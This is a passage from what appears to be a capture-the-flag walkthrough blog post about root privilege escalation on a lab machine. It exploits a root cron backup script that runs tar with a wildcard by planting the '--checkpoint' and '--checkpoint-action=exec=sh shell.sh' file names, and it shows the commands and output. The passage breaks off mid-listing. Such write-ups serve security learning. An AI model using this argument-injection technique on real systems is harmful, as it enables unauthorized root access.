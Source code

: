 17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
{% endhighlight %}

<p>Checking <code>/backup/backup.sh</code> file, and It has a root privillege!!! this is good. Checking the content!</p>
<pre><code>#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *</code></pre>

<p>During the examination of server, I have found many txt files at <code>/home/langman/SDINET</code> and one of them gets my attention which is <code>DefenseCode_Unix_WildCards_Gone_Wild.txt</code>. It has a section about how to get a command execution using tar command!!!! Bingooo :))</p>
<p>Since <code>backup.sh</code> has root privilleges, we can take advantage of getting remote execution.</p>
<p>We require to create 3 files on the same directory that tar creates a backup from, which is in this case is <code>/var/www/html/</code>as the following:</p>
<pre><code>1. "--checkpoint=1"
2. "--checkpoint-action=exec=sh shell.sh"
3. shell.sh - that has commands!</code></pre>

{% highlight bash %}
www-data@seckenheim:/var/www/html$ ls -la
total 228
drwxr-xr-x 2 www-data www-data  4096 Jun  3 08:12 .
drwxr-xr-x 3 root     root      4096 May 21 15:50 ..
-rw-r--r-- 1 root     root     73450 Aug  6  2015 bomb.jpg
-rw-r--r-- 1 root     root      3901 May 21 18:56 bomb.php
-rw-r--r-- 1 www-data www-data 99552 Mar 19  2014 cmd.php
-rw-r--r-- 1 root     root       124 May 21 17:50 content.php
-rw-r--r-- 1 root     root       145 May 21 17:17 index.php
-rw-r--r-- 1 www-data www-data    20 May 21 15:54 info.php
-rw-r--r-- 1 root     root       109 May 21 18:53 main.php
-rw-r--r-- 1 root     root     18260 Jan 22  2012 mj.jpg
-rw-r--r-- 1 root     root       532 May 21 23:33 nav.php
-rw-r--r-- 1 root     root       253 May 22 21:07 props.php
www-data@seckenheim:/var/www/html$ echo "" > shell.sh; chmod +x shell.sh
www-data@seckenheim:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
www-data@seckenheim:/var/www/html$ echo "" > --checkpoint=1
www-data@seckenheim:/var/www/html$
{% endhighlight %}

<h3 id="bigimage">Getting root Privilleges!</h3>
<p>Everything is set, now we need to put commands that help us to execute with root privilleges!, but first I want to check if everything is correct, so I have inserted the following <code>id > /tmp/id.txt</code> into shell.sh!, and after one minute!!!!!!</p>

{% highlight bash %}
ww-data@seckenheim:/var/www/html$ echo "id > /tmp/id.txt" >> shell.sh
www-data@seckenheim:/var/www/html$ cat shell.sh

id > /tmp/id.txt
www-data@seckenheim:/var/www/html$ ls -l /tmp
total 4
drwx------ 3 root root 4096 Jun  3 08:26 systemd-private-7060a45ca3a74b00b3de2e03b690a5a5-systemd-timesyncd.service-qdQWyT
www-data@seckenheim:/var/www/html$ ls -la /tmp
total 36
drwxrwxrwt  8 root root 4096 Jun  3 09:05 .
drwxr-xr-x 24 root root 4096 May 21 20:14 ..
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .ICE-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .Test-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .X11-unix
drwxrwxrwt  2 root root 4096 Jun  3 08:26 .XIM-unix